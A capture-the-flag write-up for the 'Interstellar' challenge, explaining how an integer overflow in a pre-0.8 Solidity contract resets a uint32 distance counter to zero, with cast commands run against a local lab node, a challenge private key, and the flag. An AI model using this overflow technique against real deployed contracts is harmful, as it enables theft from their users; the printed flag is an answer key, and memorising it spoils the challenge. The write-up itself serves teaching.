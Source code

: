 # Interstellar Write-up
## TL;DR
If you have noticed, the Solidity version used in this challenge is different than the other challenges, that's because Solidity versions < 0.8 had an infamous flaw in which an attacker could overflow (or underflow) `uint` variables to make it return to 0 (or to the maximum possible value in the case of underflow).
The goal of this challenge is to exploit an Integer Overflow vulnerability to set the `distanceTravled` attribute to 0.

## Solving the challenge
- `distanceTraveled` is `uint32` (4 bytes), and the largest number that we can represent with this number of bytes is `2^32 - 1 = 4294967295`
- `distanceTraveled` is initialized to `1337` , which means we need to add exactly `4294967295 - 1337 + 1 = 4294965959` in order to make it return to 0.

#### As usual, get the target address:
```bash
$cast call 0xEcf48fF5aA114A3636564Ea33E09748007f88159 "TARGET()" --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246
0x000000000000000000000000ff57a663537c1bc2b544bf44c57e9dcc04713f0c
```
#### Call galacticBoost() with 4294965959:
```bash
$cast send 0xff57a663537c1bc2b544bf44c57e9dcc04713f0c "galacticBoost(uint32)" 4294965959 --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246 --private-key 0xa35f722c76d175330a78708e4410d9e4ed8bf9e745e3fd7a1049d7d5883f6975
```
If you call `getDistanceTraveled()` now , you'll see that it's 0:
```bash
$cast call 0xff57a663537c1bc2b544bf44c57e9dcc04713f0c "getDistanceTraveled()" --rpc-url http://localhost:8545/907be6fc-c3e1-4582-9c13-a50b48af1246
0x0000000000000000000000000000000000000000000000000000000000000000
```
You're ready now to get the flag.

### Note:
The check used in the `SpaceShip` contract to prevent integer overflows is insecure: 
```solidity
require(distanceTraveled + advanceWithDistance < distanceFromTheBlackHole);
```
If we add a value that will overflow the `distanceTraveled` variable, `distanceTraveled + advanceWithDistance` will return a value smaller than `distanceFromTheBlackHole` anyways (`distanceFromTheBlackHole` is the maximum valur for uint32), and the require statement will pass.
## Flag
`shellmates{1nt3g3R_0v3rfl0o0W_1s_4_Bl0o0o0cKk_H0o0l3}`


